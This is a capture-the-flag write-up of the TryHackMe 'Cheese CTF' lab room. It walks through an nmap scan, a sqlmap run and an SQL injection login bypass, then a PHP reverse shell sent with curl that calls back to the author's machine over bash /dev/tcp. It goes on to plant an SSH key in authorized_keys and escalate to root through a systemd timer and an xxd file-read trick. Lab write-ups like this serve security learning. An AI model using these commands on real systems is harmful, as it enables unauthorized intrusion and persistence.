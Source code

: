 ```yaml
---
title: "Cheese CTF Room"
date: 2025-07-25
categories: [TryHackMe]
tags: [vm, ctf, nmap, linux, reverse shell, privilege escalation]
excerpt: "Cheese CTF Room TryHackMe"
---
```


# Introduction

This is my resolution of Cheese CTF Room of TryHackMe.

# Scanning the target

I used Nmap command to scan for open ports on the target machine and discovered three accessible ports:

- Port 21: FTP service
- Port 22: SSH service
- Port 80: HTTP web server


<figure class="text-center">
  <img src="../assets/img/CheeseCTF_nmap.png" alt="Nmap command">
  <figcaption><em>Nmap command</em></figcaption>
</figure>

Exploring the HTTP connection, I found a page with login: 

<figure class="text-center">
  <img src="../assets/img/CheeseCTF_login.png" alt="Cheese CTF page">
  <figcaption><em>Cheese CTF page</em></figcaption>
</figure>

# SQL Injection

I suspected an SQL injection vulnerability, so I started testing with sqlmap:
```
sqlmap -u "http://10.10.205.255/login.php" --data="username=test&password=test" --batch
```

Sqlmap tests if any parameters (username, password, or the URL itself) are vulnerable to SQL injection.


<figure class="text-center">
  <img src="../assets/img/CheeseCTF_sqlmap.png" alt="sqlmap results">
  <figcaption><em>Sqlmap results</em></figcaption>
</figure>

After these results, I could realise what the username and password were so I tried: ```' || 1=1;-- -``` as the username and ```'``` as password and get in!!

# Reverse Shell Access

Then, to get a Reverse Shell, I generated a PHP payload with the command:
```
echo <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.23.149.56/4444 0>&1'"); ?> > payload.txt
```
Then, when run on the server, will open a connection back to my machine.


Then, I sent the payload to the server using:: ```curl "http://10.10.187.67/secret-script.php?file=$(cat payload.txt)"```

Open another terminal and run ```rlwrap nc -lvnp 4444```
And it's possible to enter the target machine!!

# File Exploration

Now to explore the files, always got "Permission denied" erros. So,  searched for writable files and found that ```~/.ssh/authorized_keys``` was writable, where ussually the SSH keys are saved.

On my own machine, I got my SSH public key with ```cat ~/.ssh/id_rsa.pub```, and add it to the authorized_keys:
```echo 'ssh-ed25519 sshKey kali@kali' >> /home/comte/.ssh/authorized_keys```

After this I write ```cat user.txt``` and find the firts THM flag!!

# Sudo + Timer Exploit

For the root.txt flag, I started with sudo command:


<figure class="text-center">
  <img src="../assets/img/CheeseCTF_sudoCommand.png" alt="Sudo command">
  <figcaption><em>Sudo command</em></figcaption>
</figure>


So, I explored the exploit.timer file, and edit it to ```OnBootSec=5s```.

I then reloaded the systemd daemon and started the timer service:

Taking a look at the exploit.service:
```
sudo systemctl daemon-reexec
sudo systemctl start exploit.timer
```
After confirming that the timer was active, I explored exploit.service:

<figure class="text-center">
  <img src="../assets/img/CheeseCTF_exploitService.png" alt="exploit.service">
  <figcaption><em>Exploit.service</em></figcaption>
</figure>


I went digging and found this [XXD Documentation](https://gtfobins.github.io/gtfobins/xxd/?source=post_page-----5c1e2193880b---------------------------------------)

After a few tries I was abel to get the flag with ```opt/xxd "$LFILE" | xxd -r```!!

# Conclusion
This room was a fun mix of enumeration, SQLi exploitation, reverse shell tactics, and a clever privilege escalation via systemd timers.